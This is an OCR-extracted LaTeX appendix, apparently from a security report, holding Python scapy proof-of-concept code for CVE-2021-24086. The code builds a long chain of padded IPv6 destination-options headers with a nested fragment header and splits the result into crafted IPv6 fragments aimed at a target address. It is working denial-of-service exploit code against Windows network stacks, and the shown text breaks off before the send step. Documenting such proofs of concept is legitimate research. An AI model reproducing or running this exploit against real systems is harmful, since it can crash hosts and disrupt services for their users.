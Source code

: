 \documentclass{report}
\begin{document}
\section{ for CVE-2021-24086}
\label{appendix:poc}
\begin{verbatim}
from scapy.all import *
import argparse

def custom_fragment6(target, frag_id, bytes, nh, frag_size = 1008):
    assert (frag_size % 8) == 0
    rest = bytes
    offset = 0
    frags = []

    while len(rest) > 0:
        chunk = rest[: frag_size]
        rest = rest[len(chunk): ]
        last_pkt = len(rest) == 0

        # 0 -> No more / 1 -> More
        m = 0 if last_pkt else 1
        assert offset < 8191
        pkt = Ether() \
            / IPv6(dst = target) \
            / IPv6ExtHdrFragment(m = m, nh = nh, id = frag_id, offset = offset) \
            / chunk

        offset += (len(chunk) // 8)
        frags.append(pkt)
    return frags

def exploit(args):
    first_fragment_id = random.randint(0, 0xffffffff)
    second_fragment_id = random.randint(0, 0xffffffff)

    packet1 = IPv6ExtHdrDestOpt(options = [
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
        ])

    for i in range(35):
        packet1 /= IPv6ExtHdrDestOpt(options = [
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
        ])
    
    packet1 /= IPv6ExtHdrDestOpt(options = [
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xa0)),
        ])
    packet1 /= IPv6ExtHdrFragment(
        id = second_fragment_id, m = 1,
        nh = 17, offset = 0
    ) \
    / UDP(dport = 31337, sport = 31337, chksum=0x7e7f)

    packet1 = bytes(packet1)

    frags = custom_fragment6(args.target, first_fragment_id, packet1, 60)


\end{verbatim}
\end{document}
